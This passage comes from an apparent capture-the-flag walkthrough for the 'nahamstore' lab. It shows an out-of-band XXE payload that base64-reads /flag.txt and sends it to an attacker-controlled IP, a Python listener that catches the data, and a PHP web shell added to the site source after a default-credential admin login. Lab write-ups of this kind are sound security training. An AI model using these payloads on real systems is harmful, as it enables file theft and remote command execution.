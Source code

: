 	![11xxe2-2](imgs/11xxe2-2.png)

- Step 2: create the my.xml to read the data
	- `mousepad my.xml` in the CWD
		```
		<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/flag.txt">
		<!ENTITY % param1 "<!ENTITY xxedata SYSTEM 'http://10.13.19.112/?%data;'>">
		```
	![11xxe2-3](imgs/11xxe2-3.png)

- Step 3: trigger it
	- `python -m http.server 80`
	- Go to `http://nahamstore.thm/staff` and upload `book2.xlsx`
	- In the python http server, we get a base64 string: `e2Q2YjIyY2IzZTM3YmVmMzJkODAwMTA1YjExMTA3ZDhmfQo=`
	- `echo e2Q2YjIyY2IzZTM3YmVmMzJkODAwMTA1YjExMTA3ZDhmfQo= | base64 -d`
		- Get the flag: `{d6b22cb3e37bef32d800105b11107d8f}`
	![11xxe2-4](imgs/11xxe2-4.png)

---

## RCE (Task 11)

RCE 1: edit the source code in the management console
- Go to `http://nahamstore.thm:8000/admin/login` and login with credential `admin:admin`
- Go to `http://nahamstore.thm:8000/admin/8d1952ba2b3c6dcd76236f090ab8642c`
	- At the end of the source code, add `<?php echo shell_exec($_GET['cmd']); ?>`
	- Click `Update`